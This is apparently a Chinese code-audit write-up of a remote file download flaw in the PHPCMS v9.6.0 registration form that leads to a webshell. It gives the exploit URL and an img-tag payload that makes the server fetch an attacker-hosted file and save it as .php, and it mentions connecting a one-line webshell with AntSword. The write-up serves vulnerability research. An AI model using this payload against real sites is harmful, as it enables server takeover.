PHPCMSv9.6.0代码审计---前台登录界面getshell
利用过程
前台注册界面存在注入点，构造payload：
1 | /index.php?m=member&c=index&a=register&siteid=1 |

将页面信息填满之后进行抓包改包，写入构造好的payload，这里我使用的是本地环境下的测试，直接在本机放shell.txt，内容为。
抓包：

改包发包，得到一个回显的路径：


返回一个新的路径，并且使用了我们构造好的后缀.php，尝试直接访问：

这里我们利用的点是设置生日的地方info[content]，通过自行构造数据，从而导致任意文件的上传读取。根据poc的参数利用，我们对其进行跟进分析：
代码分析
结合xdebug工具进行参数传递分析：
首先找到注册界面的代码，根据/index.php?m=member&c=index&a=register&siteid=1，找到的是member模块下的index.php里面的register方法：

在代码134行，对post传入的参数info进行array_map()函数的处理，之后使用get()参数对info进行处理，跟进get()函数，
位于member_input.class.php的第20行：

1 | $data即info的参数：一个变量名为content，值为<img src=http://127.0.0.1/shell.txt?.php#.jpg>的数组 |
首先经过trim_script()函数的过滤，将尖括号转化为HTML实体编码，之后在28行将变量值赋值给value作为键值对的值进行遍历，代码继续向下执行，往下跟进参数value，在代码的第48行，参数使用$func进行处理，通过跟进知道func即是editor()：

跟进函数editor()，在member_input.class.php的59行：

追踪参数value，继续跟进函数download()，位于attachment.class.php：

代码生成了一个新的路径uploadpath，参数value经过new_stripslashes的处理，返回的值仍然不变。153行，使用preg_match_all函数，将string中含有前面正则表达式的内容放到多维数组matches中，其中正则表达式中使用两个反斜杠2，表示贪婪算法，matches中一直匹配子表达式，只要符合任意圆括号的值即可。

遍历数组matches[3]，matche的取值即为http://127.0.0.1/shell.txt?.php#.jpg，将其带入函数fillurl()，跟进函数，位于attachment.class.php中：

第300-301行：
1 | $pos = strpos($surl,'#'); //返回#在http://127.0.0.1/shell.txt?.php#.jpg中首次出现的位置 $pos=31 |
代码通过strpos()函数找到#的位置，然后通过sybstr()函数截取到#之前的部分内容，也就是在这两步中将后缀#.jpg去掉了。返回的$url =http://127.0.0.1/shell.txt?.php。

代码继续向下执行else语句，将surl的值赋给okurl，然后使用preg_replace()函数经过两次的正则匹配，返回http:////127.0.0.1/shell.txt?.php。
因此fillurl()函数的返回结果即为：http://127.0.0.1/shell.txt?.php。
回到download函数：

使用foreach语句遍历参数：file为参数的值：http://127.0.0.1/shell.txt?.php，通过fileext()函数取出拓展名：

通过点（.）来获取，取到拓展名为php。
再使用basename()函数，返回路径中的文件名部分，也就是shell.txt?，然后通过getname()函数生成一个随机数的文件名，后面直接拼接上上面返回的后缀名php：

然后通过拼接将新生成的路径http://127.0.0.1/phpcmsv9.6.0/uploadfile/2022/0124和随机生成的文件名拼接起来赋值给$newfile。然后调用了upload_func也就是copy函数（代码开头定义）将文件http://127.0.0.1/shell.txt?.php 的内容复制到新的文件路径下，使用?是因为浏览器在解析的使用会将（http://127.0.0.1/shell.txt?.php） 这种形式的链接当做一个全新的链接重新请求，不适用缓存的内容。因此直接访问http://127.0.0.1/shell.txt?.php和http://127.0.0.1/shell.txt的内容是一样的， 使用其他符号浏览器就无法读取到对应文件的内容，也就无法实现将内容复制的操作。

继续向下，download函数返回newpath的内容，也就是随机生成的新的文件路径的值，然后往回到editor函数：

editor函数也返回value值，也就是新的文件路径，继续向上到get()函数：

返回的info也就是变量名和变量的值：
1 | $field：content |
继续向上，返回到register函数中：

1 | $user_model_info的值即为 {content => http://127.0.0.1/phpcmsv9.6.0/uploadfile/2022/0124/随机数.php} |
跟进insert函数：

调用execute()函数：

在这里我们结合数据库的内容查看：

数据表中没有content字段，因此当我们将数据插入的时候，SQL语句报错，将语句回显出来，由于执行的是insert插入，所以对应的文件路径的值也会被爆出来。
整体梳理一下思路：利用的点是post传递参数info，并且在代码中会对该参数进行处理，最后会执行插入数据库的操作，当构造不存在的字段名时，会使SQL语句报错，从而将文件的路径暴露出来。在构造中我们可以上传.php文件，构造成标签的形式是为了满足download()函数中的正则匹配，使用#.jpg是因为代码对后缀做了判断，并且使用#作为取值点。使用shell.txt?.php是因为代码中存在copy的操作，需要正确读取文件的内容，但是在取文件后缀名的时候，对参数过滤不严，采取的是通过fileext()函数直接拼接后缀名的方式，导致任意文件的上传。
1 | post['info']——>get()——>editor()——>download() |
在每次抓包发包的使用用户名、密码和邮箱都需要修改。
将txt文件的内容换成一句话木马，就能直接连接蚁剑getshell：
